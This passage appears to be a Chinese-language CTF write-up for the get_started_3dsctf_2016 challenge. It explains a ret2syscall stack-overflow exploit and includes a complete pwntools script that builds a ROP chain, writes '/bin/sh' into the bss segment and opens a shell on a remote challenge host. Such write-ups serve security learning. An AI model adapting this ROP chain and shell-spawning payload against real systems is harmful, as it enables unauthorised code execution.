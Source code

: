 pop eax、ebx、ecx、edx和 int 80的地址都找到了：

<img src="https://wutongblogs.oss-cn-beijing.aliyuncs.com/blogs/ret2syscall/sys13.png?x-oss-process=style/watermark" style="zoom:80%;" />

<img src="https://wutongblogs.oss-cn-beijing.aliyuncs.com/blogs/ret2syscall/sys14.png?x-oss-process=style/watermark" style="zoom:80%;" />

<img src="https://wutongblogs.oss-cn-beijing.aliyuncs.com/blogs/ret2syscall/sys15.png?x-oss-process=style/watermark" style="zoom:80%;" />

但是bin/sh的字符没有找到，这要怎么办呢？我们可以通过**read**函数向**bss段**输入一个bin/sh字符。

首先在IDA查看read函数地址：

<img src="https://wutongblogs.oss-cn-beijing.aliyuncs.com/blogs/ret2syscall/sys19.png?x-oss-process=style/watermark" style="zoom:80%;" />

然后我们要确定bss段地址，输入以下命令查找：

```shell
readelf -S get_started_3dsctf_2016 | grep bss
```

<img src="https://wutongblogs.oss-cn-beijing.aliyuncs.com/blogs/ret2syscall/sys17.png?x-oss-process=style/watermark" style="zoom:80%;" />

在IDA里面寻找一段没有数据的bss段地址，在这里，选取的是 0x0x080ebf8A：

<img src="https://wutongblogs.oss-cn-beijing.aliyuncs.com/blogs/ret2syscall/sys18.png?x-oss-process=style/watermark" style="zoom:80%;" />

然后需要构造read函数的参数。构造read函数如下：read(0,bss,0x10)，即向bss地址处写入0x10字节的内容。

在执行完read后，为了使程序继续执行我们构造好的系统调用，需要把压入的参数压出，因此我们在 read 返回地址处填入一个可以pop 3个的地址。

<img src="https://wutongblogs.oss-cn-beijing.aliyuncs.com/blogs/ret2syscall/sys22.png?x-oss-process=style/watermark" style="zoom:80%;" />

构造好的栈溢出如下：

<img src="https://wutongblogs.oss-cn-beijing.aliyuncs.com/blogs/ret2syscall/sys21.png?x-oss-process=style/watermark" style="zoom:80%;" />

exp：

```python
from pwn import *

r = remote('node4.buuoj.cn',27237)
elf = ELF('./get_started_3dsctf_2016')
read=0x0806e140
bss=0x080ebf8a
pop_3_ret=0x080509a5
int_80h = 0x0806d7e5
pop_eax = 0x080b91e6
pop_dcb = 0x0806fc30

payload = 'a'*0x38+p32(read)+p32(pop_3_ret)+p32(0)+p32(bss)+p32(0x10) #read函数部分
payload += p32(pop_eax) + p32(0xb)+ p32(pop_dcb) + p32(0) + p32(0) + p32(bss)+ p32(int_80h) #系统调用部分
r.sendline(payload)

payload='/bin/sh\x00' #将bin/sh字符写入bss段
r.sendline(payload)
r.interactive()
```
